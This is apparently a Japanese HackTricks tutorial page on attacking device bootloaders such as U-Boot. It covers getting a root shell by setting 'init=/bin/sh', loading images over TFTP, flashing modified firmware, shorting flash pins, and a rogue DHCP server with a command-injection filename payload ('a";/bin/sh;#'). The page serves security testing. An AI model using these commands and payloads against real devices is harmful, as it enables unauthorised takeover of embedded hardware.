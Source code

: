 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}

デバイスの起動設定やブートローダー（U-bootなど）を変更するための推奨手順は以下の通りです：

1. **ブートローダーのインタープリタシェルにアクセス**:
- ブート中に「0」やスペース、または他の特定の「マジックコード」を押してブートローダーのインタープリタシェルにアクセスします。

2. **ブート引数の変更**:
- 以下のコマンドを実行して、ブート引数に '`init=/bin/sh`' を追加し、シェルコマンドを実行できるようにします：
%%%
#printenv
#setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3 mtdparts=sflash:<partitiionInfo> rootfstype=<fstype> hasEeprom=0 5srst=0 init=/bin/sh
#saveenv
#boot
%%%

3. **TFTPサーバーの設定**:
- ローカルネットワーク経由でイメージをロードするためにTFTPサーバーを設定します：
%%%
#setenv ipaddr 192.168.2.2 #デバイスのローカルIP
#setenv serverip 192.168.2.1 #TFTPサーバーのIP
#saveenv
#reset
#ping 192.168.2.1 #ネットワークアクセスを確認
#tftp ${loadaddr} uImage-3.6.35 #loadaddrはファイルをロードするアドレスとTFTPサーバー上のイメージのファイル名を取ります
%%%

4. **`ubootwrite.py`の利用**:
- `ubootwrite.py`を使用してU-bootイメージを書き込み、ルートアクセスを得るために修正されたファームウェアをプッシュします。

5. **デバッグ機能の確認**:
- 詳細なログ記録、任意のカーネルのロード、または信頼できないソースからのブートなどのデバッグ機能が有効になっているか確認します。

6. **注意が必要なハードウェア干渉**:
- デバイスのブートアップシーケンス中に1つのピンをグラウンドに接続し、SPIまたはNANDフラッシュチップと相互作用する際は注意が必要です。特にカーネルが解凍される前に行うべきです。ピンをショートさせる前にNANDフラッシュチップのデータシートを参照してください。

7. **悪意のあるDHCPサーバーの設定**:
- PXEブート中にデバイスが取り込む悪意のあるパラメータを持つロゲDHCPサーバーを設定します。Metasploitの（MSF）DHCP補助サーバーなどのツールを利用します。'FILENAME'パラメータをコマンドインジェクションコマンド（例：`'a";/bin/sh;#'`）で変更し、デバイスの起動手順に対する入力検証をテストします。

**注意**: デバイスのピンとの物理的な相互作用を伴う手順（*アスタリスクでマークされたもの）は、デバイスを損傷しないように極めて注意して行うべきです。


## 参考文献
* [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
